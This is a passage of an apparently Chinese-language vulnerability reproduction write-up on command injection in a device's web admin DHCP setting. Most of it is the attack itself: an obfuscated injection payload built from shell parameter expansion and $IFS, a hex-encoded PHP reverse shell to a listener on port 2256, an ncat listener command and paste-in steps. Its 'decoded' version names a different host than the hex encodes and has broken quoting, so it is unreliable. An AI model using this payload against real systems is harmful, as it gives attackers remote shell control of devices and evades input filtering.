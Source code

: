 根据[模式匹配](https://www.gnu.org/software/bash/manual/html_node/Pattern-Matching.html#Pattern-Matching)的规则，应该可以写出更简洁的方法，但是我的系统中好多shell选项都没有开启，考虑到通用性，我就直接选择了最傻瓜的匹配方式。

3、获得反向shell

    $P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e28223139322e3136382e312e313035222c32323536293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'

先把变量换成对应的字符，注意上面的`$IFS`是shell的一个内定变量，默认为`<space><tab><newline>`，这里代替空格。

    php -r 'exec(hex2bin("706870202d72202724736f636b3d66736f636b6f70656e28223139322e3136382e312e313035222c32323536293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"))'

然后替换`hex2bin`的执行结果（转义符是我后加的）：

    php -r 'exec(php -r \'$sock=fsockopen("target.0-sec.org",2256);exec("/bin/sh -i <&3 >&3 2>&3");\')'

这段代码就可以获得一个反向shell。

漏洞复现
--------

在主机的命令行中输入：

    ncat -nlvp 2256

进入监听模式，等待其他机器的连接。

返回虚拟机，在浏览器中打开`http://192.168.1.107/admin`，登录，选择Setting-\>DHCP选项卡，输入payload：

    aaaaaaaaaaaa&&SHORT=${PATH##/***:/}&&A=${SHORT#???}&&P=${A%/???}&&B=${PWD#/???/???/}&&H=${B%???/?????}&&C=${PWD#/??}&&R=${C%/???/????/?????}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e28223139322e3136382e312e313035222c32323536293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'&&
